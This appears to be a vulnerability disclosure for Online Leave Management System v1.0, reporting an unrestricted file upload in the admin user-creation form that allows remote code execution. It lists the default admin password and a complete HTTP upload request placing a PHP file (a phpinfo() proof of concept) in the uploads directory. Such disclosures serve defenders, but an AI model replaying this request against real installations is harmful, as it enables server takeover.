 # Online Leave Management System v1.0 by oretnom23 has arbitrary code execution (RCE)

BUG_Author: hegeoo

Admind login account: admin/admin123

vendor: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

Vulnerability url: http://ip/leave_system/classes/Users.php?f=save

Loophole location：There is an arbitrary file upload vulnerability (RCE) in the picture upload point of the "Create New" file of the "User list" module in the background management system

Request package for file upload：

```sql
POST /leave_system/classes/Users.php?f=save HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/leave_system/admin/?page=user/manage_user
Content-Length: 809
Content-Type: multipart/form-data; boundary=---------------------------7128709111375
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close

-----------------------------7128709111375
Content-Disposition: form-data; name="id"


-----------------------------7128709111375
Content-Disposition: form-data; name="firstname"

111
-----------------------------7128709111375
Content-Disposition: form-data; name="lastname"

111
-----------------------------7128709111375
Content-Disposition: form-data; name="username"

111
-----------------------------7128709111375
Content-Disposition: form-data; name="password"

11
-----------------------------7128709111375
Content-Disposition: form-data; name="type"

2
-----------------------------7128709111375
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------7128709111375--
```

The files will be uploaded to this directory \leave_system\uploads
![image](https://user-images.githubusercontent.com/54017627/183586121-e03f5679-33e6-434b-94f5-e73dd0ae6e08.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/183586091-5776f990-67fd-4357-abb8-778925e23947.png)
